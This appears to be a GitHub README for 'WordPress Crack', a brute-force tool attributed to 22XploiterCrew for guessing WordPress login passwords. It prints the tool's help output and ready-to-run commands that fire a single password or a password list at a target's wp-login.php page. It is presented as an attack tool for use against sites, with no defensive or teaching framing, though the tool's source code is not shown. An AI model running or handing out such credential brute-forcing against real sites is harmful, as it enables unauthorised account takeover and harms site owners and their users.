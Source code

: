 <h1 align="center">WordPress Crack<br/>Super Fast Login</h1>

> this is the first version, we will fix any bugs that appear. so expect participation :)

```
WordPress Brute Force Super Fast Login By 22XploiterCrew
Website : https://22xploitercrew.my.id
E-Mail  : dev@22xploitercrew.my.id

usage: python3 wp-crack.py url username [-p|-P] [-v VERBOSE]

positional arguments:
  url               url the target
  username          username target

optional arguments:
  -h, --help        show this help message and exit
  -V, --version     show program's version number and
                    exit
  -v, --verbose     verbose mode/show username and
                    password combination for each attempt
  -p , --password   use one word password
  -P , --passlist   use a few words password

Please check your target first so that the login process
runs smoothly
```

### Required
- Python3

### How To Use
- Single password
```
python3 wp-crack.py https://site.com/wp-login.php username -p password
```

- List password
```
python3 wp-crack.py https://site.com/wp-login.php username -P password.txt
```
